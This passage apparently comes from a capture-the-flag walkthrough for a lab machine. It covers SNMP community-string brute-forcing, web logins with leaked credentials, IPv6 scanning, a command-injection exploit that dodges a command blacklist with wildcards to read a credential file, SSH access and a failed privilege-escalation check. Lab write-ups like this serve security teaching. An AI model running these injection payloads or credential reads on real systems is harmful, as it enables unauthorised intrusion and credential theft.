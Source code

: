 5. **Brute-Forcing SNMP Community Strings (if needed)**:
   - **Technique**: Use the `onesixtyone` tool to brute-force SNMP community strings if "public" fails.
   - **Details**: Confirmed "public" worked, but demonstrated updating `onesixtyone` from GitHub to use a community string wordlist.
   - **Commands**:
     - `onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp-onesixtyone.txt [TARGET-IP]`
     - Update tool: `cd /opt; git clone <trailofbits/onesixtyone>; ./onesixtyone -c <wordlist> [TARGET-IP]`

6. **Accessing the Simple HTTP Server (IPv4, Port 3366)**:
   - **Technique**: Access the HTTP server on port 3366, encountering a basic authentication prompt.
   - **Details**: Used credentials from SNMP output (`loki:godofmischiefis@loki`). Retrieved an image and new credentials (`loki:trickeryanddeceit`).
   - **Steps**:
     - Navigate to `http://[TARGET-IP]:3366`
     - Login with `loki:godofmischiefis@loki`
     - Check image for steganography (none found using `exiftool` and `binwalk`)

7. **IPv6 Address Conversion and Scanning**:
   - **Technique**: Convert the decimal IPv6 address from SNMP to hexadecimal format and scan it.
   - **Details**: Used Python to convert decimal to hex (e.g., `print(hex(222))` for `0xde`), forming the IPv6 address `dead:beef::/64`. Scanned with Nmap to find port 80 open (Apache) on IPv6, unlike port 3366 on IPv4.
   - **Commands**:
     - `nmap -sC -sV -oA nmap/mischief-ipv6 -6 dead:beef::`
     - Verify port 3366 closed on IPv6: `nc -zv -6 dead:beef:: 3366`

8. **Command Injection on IPv6 Web Server (Port 80)**:
   - **Technique**: Access the Apache server on IPv6, log in, and exploit a command injection vulnerability.
   - **Details**: Logged in with `administrator:trickeryanddeceit` (guessed username). Executed commands via a web panel, confirming command injection with `ping` and `sleep` tests. Discovered blacklisted commands (e.g., `cat`, `ls`, `credentials`) but bypassed using wildcards (e.g., `cred*`).
   - **Steps**:
     - Navigate to `http://[dead:beef::]`
     - Login with `administrator:trickeryanddeceit`
     - Test command injection: `ping [ATTACKER-IP]; echo`, `sleep 5; echo`
     - Retrieve credentials: `cat /home/loki/cred*; echo` → `lokiisthebestnorsegod`

9. **SSH Access as Loki**:
   - **Technique**: Use credentials obtained from command injection to SSH into the target as the `loki` user.
   - **Details**: Logged in with `loki:lokiisthebestnorsegod`, confirming user-level access.
   - **Command**: `ssh loki@[TARGET-IP]`

10. **Privilege Escalation Attempt (Unsuccessful)**:
    - **Technique**: Check for privilege escalation vectors, including `sudo`, group memberships, and file permissions.
    - **Details**: Found `loki` not in the `lxc` group, no `sudo` access, and restricted permissions on `/bin/su`. Checked `.bash_history` for additional credentials (`loki:trickeryanddeceitgodofmischiefis@loki`), but `su` failed.
    - **Commands**:
      - `groups`, `sudo -l`, `ls -la /bin/su`, `getfacl /bin/su`
      - `cat ~/.bash_history`
